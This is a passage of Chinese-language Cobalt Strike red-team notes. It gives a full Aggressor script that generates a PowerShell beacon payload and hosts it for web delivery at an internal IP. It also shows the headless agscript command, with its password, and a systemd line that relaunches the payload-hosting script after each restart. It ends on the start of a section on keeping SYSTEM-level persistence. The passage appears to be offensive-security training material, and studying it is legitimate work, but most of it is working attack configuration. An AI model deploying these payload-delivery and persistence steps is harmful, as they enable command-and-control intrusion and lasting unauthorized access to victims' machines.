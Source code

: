 
artifact_payload接受三个参数

- Listener name.
- Payload type.
- Payload architecture.

例子如下：
```
$payload = artifact_payload("http", "powershell", "x64");
```

site_host接受7个参数

- Local IP address of the server.
- Port number to host on.
- The URI.
- File content.
- Mime-type.
- A friendly description.
- Use HTTP or HTTPS.

完整配置如下：
```
# Connected and ready
on ready {

    # Generate payload
    $payload = artifact_payload("http", "powershell", "x64");

    # Host payload
    site_host("10.10.5.50", 80, "/a", $payload, "text/plain", "Auto Web Delivery (PowerShell)", false);
}
```

测试：
```
attacker@ubuntu ~/cobaltstrike> ./agscript 127.0.0.1 50050 headless Passw0rd! host_payloads.cna
```

添加到启动服务中
```
ExecStartPost=/bin/sh -c '/usr/bin/sleep 30; /home/attacker/cobaltstrike/agscript 127.0.0.1 50050 headless Passw0rd! host_payloads.cna &'
```


# 主机持久性（system）

在之前的主机持久性章节中，我们研究了在用户上下文中获取持久性。但是，在我们提升主机上的权限后，我们还可以添加持久性机制来维护 SYSTEM 访问权限。这允许保持对机器的高级访问，而不必再次利用漏洞（因为它可能会在以后被修补或修复）

要使这些方法起作用，您必须在高完整性 Beacon 中运行

> 请记住，SYSTEM 进程无法对 Web 代理进行身份验证，因此我们不能使用 HTTP 信标。请改用 P2P 或 DNS 信标。
